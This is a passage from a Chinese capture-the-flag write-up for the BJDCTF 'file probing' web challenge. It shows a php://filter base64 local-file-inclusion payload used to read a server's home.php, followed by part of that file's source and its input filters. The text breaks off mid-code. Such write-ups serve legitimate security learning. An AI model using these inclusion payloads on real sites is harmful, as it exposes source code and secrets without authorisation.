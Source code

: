 1. 也是脑洞题，唯一的问题在于忽略了id后面的Hex字符。

----

# 文件探测

## 题目描述

界面挺炫酷的，不过没什么用，然后在源码里发现一点信息：

```html
<!-- Inheriting and carrying forward the traditional culture of the first BJDCTF, I left a hint in some place that you may neglect  -->
```

## 解题思路

Emmm，完全不记得上次BJD有什么传统，不过在响应头中找到一个了提示的文件名"home.php"，原来这是传统啊。

访问一下，要求回答三个问题：

```
你知道目录下都有什么文件吗?
请输入你想检测文件内容长度的url
你希望以何种方式访问？GET？POST?
```

然后作为三个POST参数一起发出去，分别设为foo、bar、quz，返回如下：

```
~$ python fuck.py -u "bar.y1ng.txt" -M quz -U y1ng -P admin123123 --neglect-negative --debug --hint=xiangdemei
       Error:  url invalid
```

没什么线索，不过注意到访问home.php时，URL被重定向为"home.php?file=system"，然后页面还提示了"现在访问的是 system.php"。文件包含吗？伪协议读一下源码：

```
home.php?file=php://filter/convert.base64-encode/resource=home
```

home.php源码删减：

```php
<?php

setcookie("y1ng", sha1(md5('y1ng')), time() + 3600);
setcookie('your_ip_address', md5($_SERVER['REMOTE_ADDR']), time()+3600);

if(isset($_GET['file'])){
    if (preg_match("/\^|\~|&|\|/", $_GET['file'])) {
        die("forbidden");
    }

    if(preg_match("/.?f.?l.?a.?g.?/i", $_GET['file'])){
        die("not now!");
    }

    if(preg_match("/.?a.?d.?m.?i.?n.?/i", $_GET['file'])){
        die("You! are! not! my! admin!");
    }

    if(preg_match("/^home$/i", $_GET['file'])){
        die("禁止套娃");
    }

    else{
        if(preg_match("/home$/i", $_GET['file']) or preg_match("/system$/i", $_GET['file'])){
```